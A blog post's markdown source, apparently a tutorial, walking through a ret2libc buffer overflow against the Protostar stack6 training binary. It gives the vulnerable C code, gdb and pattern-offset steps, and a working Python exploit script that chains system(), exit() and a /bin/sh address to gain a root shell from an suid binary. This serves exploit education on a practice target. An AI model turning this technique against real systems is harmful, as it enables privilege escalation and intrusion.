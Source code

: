 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , ret2libc - protostar stack6
categories: binary-exploitation
image: binary-exploitation/BOF6/0.png
---
```

<hr>
### Introduction
#### Hey guys , In the last post about buffer overflow we exploited a buffer overflow vulnerability where we were able to inject a shellcode and escalate privileges to root. But that was possible because we were able to overwrite the return address to another address on the stack where we placed our shellcode , but what if the stack is non-executable ? we will perform an attack called ret2libc and that's what we are going to discuss today with protostar - stack6. Without wasting more time let's jump right in !
#### Read the [previous posts](/categories/#binary-exploitation) if you haven't yet.
![](/images/binary-exploitation/BOF6/0.png)
<hr>
### ./stack6
#### As always we are given the source code of the binary :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
        char buffer[64];
        unsigned int ret;

        printf("input path please: "); fflush(stdout);

        gets(buffer);

        ret = __builtin_return_address(0);

        if((ret & 0xbf000000) == 0xbf000000) {
                printf("bzzzt (%p)\n", ret);
                _exit(1);
        }

        printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
        getpath();



}
```
#### What this code is doing is just printing `input path please:` then it stores our input in a buffer of 64 chars and finally it prints it out:
![](/images/binary-exploitation/BOF6/1.png)
#### Our problem is this `if` statement :
```
        if((ret & 0xbf000000) == 0xbf000000) {
                printf("bzzzt (%p)\n", ret);
                _exit(1);
        }
```
#### This is making sure that the return address is not on the stack , which makes it not possible to perform a shellcode injection like we did in the [previous example](/binary-exploitation/bof5/). We can defeat this by a technique called ret2libc.
<br>
<hr>
### ret2libc
#### So what is "ret2libc" ? If we take the word itself : "ret" is return , "2" means to and "libc" is the C library. The idea behind ret2libc is instead of injecting shellcode and jumping to the address that holds that shellcode we can use the functions that are already in the C library. For example we can call the function `system()` and make it execute `/bin/sh`. (Read about `system()` [here](https://www.tutorialspoint.com/c_standard_library/c_function_system.htm)). We will also need to use the function `exit()` to make the program exit cleanly. (Read about `exit()` [here](https://www.tutorialspoint.com/c_standard_library/c_function_exit.htm)).
#### So finally our attack payload will be : "padding --> address of `system()` --> address of `exit()` --> `/bin/sh`" instead of : "padding --> new return address --> NOP --> shellcode".
#### Now let's see how will we do it.
<br>
<hr>
### Exploiation 
#### Again , this will execute `/bin/sh` as root because this binary is an `suid` binary. If it wasn't `suid` we would get a shell as the same user. We can check by using `find` :
`find /opt/protostar/bin/ -perm -4000 | grep stack6`
![](/images/binary-exploitation/BOF6/2.png)
#### As you can see `stack6` is an `suid` binary.
#### So first of all , after we call `system()` we will need to give it `/bin/sh` , how will we do that ? A nice way to do it is to store `/bin/sh` in an environment variable. I created a variable and called it `SHELL` :
![](/images/binary-exploitation/BOF6/3.png)
#### Now we need to find the address of that variable , we can do it from `gdb` by setting a breakpoint at main , then running the program and doing this : `x/s *((char **)environ+x)` where `x` is a number , This will print the address of an environment variable. We will keep trying numbers until we get the address of `SHELL`
#### But I found a better way to do it when I was reading an article on [shellblade](https://www.shellblade.net/). We will use a `c` program to tell us the estimated address.
#### Code :
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char **argv)
{
        char *ptr = getenv("SHELL");
        if (ptr != NULL)
        {
                printf("Estimated address: %p\n", ptr);
                return 0;
        }
}
```
![](/images/binary-exploitation/BOF6/4.png)
#### Then we will compile it : `gcc address.c -o address` :
![](/images/binary-exploitation/BOF6/5.png)
#### As you can see it's telling us the address of the environment variable `SHELL`. Now keep in mind that this is not the "exact" address and we will need to go up and down to get the right address.
#### Let's start by finding the offset. As we did before we will use `pattern_create.rb` and `pattern_offset.rb` from metasploit exploitation tools.
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF6/6.png)
#### We have our pattern now let's run the program in gdb and set a breakpoint before main `break *main`. Then we will type `c` to continue and paste the pattern. The buffer will overflow and we will see exactly where did the overflow happen : 
![](/images/binary-exploitation/BOF6/7.png)
#### We got the address `0x37634136` , now let's go back and use `pattern_offset.rb` :
`./pattern_offset.rb -q 0x37634136`
![](/images/binary-exploitation/BOF6/8.png)
#### So after 80 chars the buffer overflows. Next thing to check is the addresses of `system()` and `exit()`. From gdb we will set a break point at main and type `r` to run the program. After it reaches the break point and breaks we can get the address of system by typing `p system` and we will do the same thing for exit `p exit` :
![](/images/binary-exploitation/BOF6/9.png)
#### Address of system : `0xb7ecffb0`
#### Address of exit : `0xb7ec60c0`
#### Lastly we will check the address of `SHELL` again because it's subject to change :
![](/images/binary-exploitation/BOF6/10.png)
#### Address : `0xbffff985` 
#### Let's check our notes :
![](/images/binary-exploitation/BOF6/11.png)
#### Ok , we are ready to write our exploit , we will use struct `import struct` like we did before. We will create a variable for the chars we will use to fill the buffer and call it `buffer` , its value will be 80 A's.
`buffer = "A" * 80`
#### Then we will create 3 variables to hold the addresses of `system()` , `exit()` and `SHELL`. We will use struct to reverse the addresses.
`system = struct.pack("I" ,0xb7ecffb0)`
<br>
<br>
`exit = struct.pack("I" ,0xb7ec60c0)`
<br>
<br>
`shell = struct.pack("I" ,0xbffff985)`
#### And finally we will print the payload.
`print buffer + system + exit + shell`
#### Final script :
```
import struct

buffer = "A" * 80
system = struct.pack("I" ,0xb7ecffb0)
exit = struct.pack("I" ,0xb7ec60c0)
shell = struct.pack("I" ,0xbffff985)

print buffer + system + exit + shell
```
![](/images/binary-exploitation/BOF6/12.png)
#### We have to remember that the address of `SHELL` is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6` :
![](/images/binary-exploitation/BOF6/13.png)
#### And no shell , After going up and down by editing the address in the python script I finally got the right address which is `0xbffff992` :
`python /tmp/stack6.py > /tmp/payload`
<br>
<br>
`cat /tmp/payload - | ./stack6`
![](/images/binary-exploitation/BOF6/14.png)
#### root shell!
#### So after editing the address of `shell` variable , the script will be like this :
```
import struct

buffer = "A" * 80
system = struct.pack("I" ,0xb7ecffb0)
exit = struct.pack("I" ,0xb7ec60c0)
shell = struct.pack("I" ,0xbffff992)

print buffer + system + exit + shell
```
![](/images/binary-exploitation/BOF6/15.png)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Buffer Overflow article : [Buffer Overflow Practical Examples , Shellcode Injection and Local Privilege Escalation - protostar stack5](/binary-exploitation/bof5/)
<hr>
